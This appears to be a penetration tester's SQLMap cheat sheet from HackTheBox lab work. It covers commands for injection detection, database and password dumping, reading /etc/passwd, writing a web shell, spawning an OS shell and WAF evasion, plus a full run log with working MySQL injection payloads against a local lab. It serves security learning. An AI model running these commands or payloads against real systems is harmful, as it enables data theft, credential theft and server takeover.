





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SQLMap

## Commands



```bash
sqlmap --flush-session
```



### Detection

The `--level` flag affects which payload sqlmap tries and which injections points are tested, while the `--risk` flag adds more SQLi types.

<table><thead><tr><th width="107">Value</th><th>Level (1-5)</th><th>Risk (1-3)</th></tr></thead><tbody><tr><td>1</td><td><code>GET</code> and <code>POST</code> parameters are <strong>always</strong> tested (default value)</td><td>Innocuous for the majority of SQLi points (default value).</td></tr><tr><td>2</td><td>HTTP Cookie header values.</td><td>Adds heavy query time-based SQLis.</td></tr><tr><td>3</td><td>HTTP User-Agent/Referer headers values.</td><td>Adds <code>OR</code>-based SQLis.</td></tr></tbody></table>



```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```




```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```




```bash
sqlmap -r burp.req --batch -v 0
```



```bash
sqlmap -r burp.req --batch -v 0 --level=5 --risk=3
```



```bash
sqlmap -r burp.req --batch -v 0 --proxy http://127.0.0.1:8080
```



### Data Exfil



```bash
# List databases
sqlmap -r burp.req --batch --dbs
# Current database and user
sqlmap -r burp.req --banner --current-user --current-db --is-dba --batch
```



```bash
sqlmap -r burp.req -D testdb --tables --batch
```



```bash
sqlmap -r burp.req -D testdb -T testtable --dump --batch
```



```bash
sqlmap -r burp.req -D testdb -T testtable --dump -C col1,col2 --batch
```




```bash
sqlmap -r burp.req -D testdb -T testtable --dump -C --start=1 --stop=10 --batch
```




```bash
sqlmap -r burp.req --schema --batch
```






```bash
sqlmap -r burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```




```bash
sqlmap -r burp.req -D testdb --batch -v 0
```




```bash
sqlmap -r burp.req --dump-all --exclude-sysdbs --batch -v
```




```bash
sqlmap -r burp.req --all --batch -v 0
```



### Advanced Data Exfil



```bash
sqlmap -r burp.req --search -T tableName --batch -v 0
```



```bash
sqlmap -r burp.req --search -C colName --batch -v 0
```



```bash
sqlmap -r burp.req --passwords --batch -v 0
```



### OS Exploitation



```bash
sqlmap -r burp.req --batch -v 0 --file-read "/etc/passwd"
```




```bash
sqlmap -r burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```




```bash
sqlmap -r burp.req --batch -v 0 --os-shell
```




DBAs need certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.


### Bypasses



```bash
sqlmap -r burp.req --batch -v 0 --randomize=rp 
```




```bash
sqlmap -r burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```





```bash
sqlmap -r burp.req --batch -v 0 --random-agent
```




```bash
sqlmap -r burp.req --batch -v 0 --chunked
```



```bash
sqlmap -r burp.req --batch -v 0 -hpp
```






```bash
sqlmap -r burp.req --batch -v 0 --level=5 --risk=3 --tamper=charunicodeescape --delay 3
```




## Usage

### Basic Usage

<figure><figcaption></figcaption></figure>


```bash
$ sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=test&Submit=Submit" --cookie "PHPSESSID=23k5fk90ga91i036avi44m2mr2; security=low" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:50:58 /2024-06-05/

[12:50:59] [INFO] testing connection to the target URL
[12:50:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:50:59] [INFO] testing if the target URL content is stable
[12:50:59] [INFO] target URL content is stable
[12:50:59] [INFO] testing if GET parameter 'id' is dynamic
[12:50:59] [WARNING] GET parameter 'id' does not appear to be dynamic
[12:50:59] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:50:59] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[12:50:59] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:50:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:50:59] [WARNING] reflective value(s) found and filtering out
[12:50:59] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:50:59] [INFO] testing 'Generic inline queries'
[12:50:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:51:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:51:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[12:51:00] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --not-string="Me")
[12:51:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:51:00] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[12:51:00] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[12:51:00] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:51:00] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:51:00] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:51:00] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:51:00] [INFO] GET parameter 'id' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[12:51:00] [INFO] testing 'MySQL inline queries'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[12:51:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[12:51:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:51:10] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[12:51:10] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:51:10] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:51:10] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:51:10] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:51:10] [INFO] target URL appears to have 2 columns in query
[12:51:10] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[12:51:10] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 136 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=test' OR NOT 7718=7718#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=test' OR (SELECT 6333 FROM(SELECT COUNT(*),CONCAT(0x7176627071,(SELECT (ELT(6333=6333,1))),0x71786b7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- XGxV&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=test' AND (SELECT 8341 FROM (SELECT(SLEEP(5)))BInm)-- SaYq&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=test' UNION ALL SELECT NULL,CONCAT(0x7176627071,0x435a6a45595a5654536763586e45714c5748486a74697668486d7463614b674548436a7971586f55,0x71786b7071)#&Submit=Submit
---
[12:51:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:51:10] [INFO] fetched data logged to text files under '/home/x7331/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 12:51:10 /2024-06-05/
```


### cURL


The lab used is from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) section of the[ Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163) module from HTB.


Copy as `cURL` from browser's Network tab (Figure 1).

<figure><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` chooses the defaults when prompted, `-v 0` reduces the verbosity level._

<figure><figcaption><p>Figure 2: Changing cURL to sqlmap and we are good to go!</p></figcaption></figure>

### HTTP Requests

Capture the Request Headers and POST data via the browser or Burp (Figure 3).

> _From Mozilla `Copy Value` -> `Copy Request Headers` and then add the parameters via `Copy Value` -> `Copy POST Data`._

<figure><figcaption><p>Figure 3: Copying the POST request to a file with Burp Suite.</p></figcaption></figure>

Supply the file to SQLMap (Figure 4).

<figure><figcaption><p>Figure 4: Using SQLMap with a request file.</p></figcaption></figure>

## Resources










